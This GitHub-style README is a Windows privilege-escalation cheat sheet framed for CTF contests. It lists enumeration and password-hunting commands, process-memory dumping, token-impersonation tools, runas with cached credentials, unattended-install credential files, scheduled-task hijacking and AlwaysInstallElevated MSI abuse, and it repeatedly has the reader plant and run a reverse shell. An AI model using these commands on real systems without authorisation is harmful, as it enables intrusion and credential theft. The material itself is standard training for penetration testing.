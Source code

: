 # Windows-PrivEsc-full-guide UNDER DEVELOPMENT

Hi Everybody! I made this repo to share the privilege escalation techniques I tend to use on Windows based systems. Most of the tools ore working perfectly in CTF like competitions/exams. Use them and the tools on your own responsability, if you mess up an an coorporative or your own system, that's gonna be your fault and not mine! Now let's get into it.

## Enumeration

basic-enum

hostname
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe

user-enum

whoami
whoami /priv
whoami /groups
netuser
netuser "USERNAME"
net localgroup
net localgroup "GROUPNAME"
net accounts

network-enum

ipconfig
ipconfig /all
arp -a
route print
netstat -a

password-hunting

findstr /si password *.txt *.ini *.config
procdump.exe -accepteula -ma <proc_name_tasklist>
Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView

service-enum

sc query
wmic service list brief
sc query windefend

firewall-enum

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

## Paths:

### Kernel exploits:

Execute the systeminfo command on the compromised system and save it in a file. Later you can feed this file into automated tools like windows-exploit-suggester or wesng. Also, you can look up kernel exploits manually using google, bing or other search engines.

If you have a meterpreter shell you can execute the following command to list out all the available kernel exploits:

run post/multi/recon/local_exploit_suggester

Common ones in CTFs are MS16-014 and MS09-012, I saw these popping up multiple times.

### Token impersonation

Tokens are like cookies when accesing to a website. They are assigned to every user upon logging in. The local administrator users got two of these tokens, one with the same priviliges as the a regular user and one with admin priviliges. When the local admin trying to execute a program with admin priviliges a window will pop up warning the user that the program may make changes on the system (UAC).

To make these type of attack work the compromised user must have the SeImpersonatePrivilege enabled, you can check for this with the whoami /priv command. Try the following exploits:

https://github.com/ohpe/juicy-potato          | works on older machines better (win7 and older)

https://github.com/antonioCoco/RogueWinRM     | winrm service must be stopped to make this work (default on win10 but not on Windows Server 2019)

https://github.com/CCob/SweetPotato           | a combination of potato attacks

https://github.com/itm4n/PrintSpoofer         | my go-to for newer systems

If you have a meterpreter shell you can use the a module called incognito with the following commands:

load incognito
list_tokens -u
impersonate_token "USERNAME"

### Runas

Windows includes a useful command called RunAs that enables a user to run a program as a different user if credentials are known. If a user’s credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.

Check for cached credentials using the following command:

cmdkey /list

If you find the cached credentials of an administrator create a reverse shell or download one, transfer it to the machine and execute it with the following command to get admin access:

runas /savecred /user:WORKGROUP\User "Shell to execute"

Make sure to set up a listener to catch the connection;).

For those who like to use tools for everything I recommend mimikatz and lasagne for these type of escalation attempts.

### Unattended Windows Installations

Administrators who need to install Windows on multiple hosts can use Windows Deployment Services, enabling them to deploy a single operating system image to several hosts over the network. This type of installation is known as an unattended installation, as it doesn't require user interaction.An administrator account is necessary for performing the initial setup of such installations, which may result in the storage of the account information on the machine in one of the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

### Scheduled Tasks

Check for scheduled tasks using schtasks. Use the following commands to retrive more information about the task:

schtasks /query /tn $taskname$ /fo list /v

For us there are two important parameters when setting up a scheduled task: the "Task to Run" parameter, which specifies what will be executed by the task, and the "Run As User" parameter, which determines the user account that will be used to run the task. If you can overwrite the binary of "Task to run" you can control what's gonna be executed. Check the permissions using icacls.

icacls c:\tasks\randomtask.exe

Rewrite it with a reverse shell of your choice and execute it with the following command or similar:

schtasks /run /tn randomtask.exe

### AlwaysInstallElevated

Installer files for Windows, commonly referred to as .msi files, are utilized to install software applications onto a system. Normally, these files run with the same privilege level as the user who initiated the installation. Nevertheless, it's possible to adjust the configuration to allow them to run with elevated privileges from any user account, including unprivileged ones. As a result, it's feasible for a malicious MSI file to be generated that could execute with administrative privileges.

Check for these two registers, both of them must be set to pull of this escalation path:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Create a reverse shell and upload it to the victim machine and use the following command to execute it:

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi












